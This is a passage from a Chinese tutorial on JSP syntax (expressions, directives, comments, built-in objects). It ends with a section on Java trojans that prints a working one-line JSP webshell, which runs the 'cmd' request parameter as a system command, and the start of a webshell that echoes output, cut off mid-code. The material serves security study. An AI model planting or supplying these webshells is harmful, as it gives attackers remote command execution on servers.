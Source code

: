 ```java
</html>
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712565153195-0c2caa6c-bd2b-4faf-9507-f165fdc73318.png#averageHue=%23ededed&clientId=uc4e50454-e077-4&from=paste&height=228&id=u61d107b2&originHeight=456&originWidth=976&originalType=binary&ratio=2&rotation=0&showTitle=false&size=62584&status=done&style=none&taskId=u8ca686ed-b4e4-448e-9261-04af864e4b1&title=&width=488)
### 1.2.2、JSP表达式
如果`JSP`表达式中为一个对象，则会自动调用其`toString()`方法。格式如下，注意表达式后没有`;`
```java
<%= 表达式  %>
```
等价于下面的XML表达式
```
<jsp:expression>
   表达式
</jsp:expression>
```
使用实例
```java
<html>
<body>
<meta charset="UTF-8">
<h2>Hello World!</h2>
<%! String name = "YunShan";  %>
<%= name %>
</body>
</html>
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712565746399-0bfc61ba-ee94-4a31-a57f-832d653ce9ee.png#averageHue=%23ededed&clientId=uc4e50454-e077-4&from=paste&height=215&id=u88b76e71&originHeight=430&originWidth=1160&originalType=binary&ratio=2&rotation=0&showTitle=false&size=65392&status=done&style=none&taskId=u32602260-fa04-47da-9476-8fee3c4474d&title=&width=580)
### 1.2.3、JSP指令
JSP指令用来设置与整个JSP页面相关的属性。下面有三种JSP指令
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712565850920-e7ab7b95-6c54-434e-ac2e-64552c01bcad.png#averageHue=%23e9e9e9&clientId=uc4e50454-e077-4&from=paste&height=232&id=udf7d7c01&originHeight=464&originWidth=1708&originalType=binary&ratio=2&rotation=0&showTitle=false&size=97186&status=done&style=none&taskId=ue8d3453c-7b7f-4f61-ab94-490bb1838cb&title=&width=854)
比如我们能通过page指令来设置jsp页面的编码格式
```java
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
```
### 1.2.4、JSP注释
```java
<%-- 注释内容 --%>
```
### 1.2.5、JSP内置对象
`JSP`有九大内置对象，他们能够在客户端和服务器端交互的过程中分别完成不同的功能。其特点如下

- 由 `JSP` 规范提供，不用编写者实例化
- 通过 `Web` 容器实现和管理
- 所有 `JSP` 页面均可使用
- 只有在脚本元素的表达式或代码段中才能使用

![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712623226685-a44c4825-ed6b-4ee9-adeb-403314ff0b27.png#averageHue=%23ededed&clientId=u9c24ba4b-c398-4&from=paste&height=645&id=ubc939120&originHeight=1290&originWidth=1688&originalType=binary&ratio=2&rotation=0&showTitle=false&size=305831&status=done&style=none&taskId=u3a8bf06d-7ed6-4b84-a046-8de8f8955be&title=&width=844)
# 2、JAVA木马
传统的`JSP`木马实现
```java
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```
上面是最简单的一句话木马，没有回显，适合用来反弹`shell`。下面是一个带回显的`JSP`木马
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<% if(request.getParameter("cmd")!=null){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
 
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(in));
    String line;
```